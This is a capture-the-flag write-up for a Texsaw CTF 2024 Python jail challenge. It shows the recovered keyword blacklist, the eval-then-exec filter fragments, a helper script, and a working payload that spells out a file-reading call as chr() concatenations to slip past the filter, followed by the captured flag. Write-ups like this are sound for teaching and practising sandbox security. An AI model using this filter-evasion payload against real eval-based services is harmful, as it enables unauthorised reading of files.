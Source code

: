 ```yaml
---
layout: writeup
category: Texsaw-CTF-2024
chall_description:
points: 200
solves: -1
tags: misc misc/pyjail
date: 2024-3-25
comments: false
---
```


You've been locked in the worst prison imaginable: one without any meatballs! To escape the prison, you must read the flag using Python!  

`nc 3.23.56.243 9011`  

---

After playing around with it a bit, and getting various errors, here's what I got:  

```
blacklist: import, dir, print, open, ', ", os, sys, _, eval, exec, =, [, ]

prohibited actions:
    function calls without parameters, i.e. '()'

code fragments:
    inp = eval(inp)
    inp = inp.replace("print", "stdout.write")
    out = exec(inp)
```

The code fragments are the most important here. Notably, the input is evaluated first before it is executed... let's test if a function like chr() works.  

Turns out, it does! That means we can just write every character as a chr(some number), which will allows us to print the file. Here's a little script that helps us write our payload:  

```py
payload = 'print(open("flag.txt","r").read())'
for i in payload:
    print(f'chr({ord(i)})+', end='')
```

And here's our final payload:  

```
chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(34)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(34)+chr(44)+chr(34)+chr(114)+chr(34)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)+chr(41)
```

    texsaw{SP4P3GGY_4ND_M34TBA11S_aa17c6d30ee3942d}
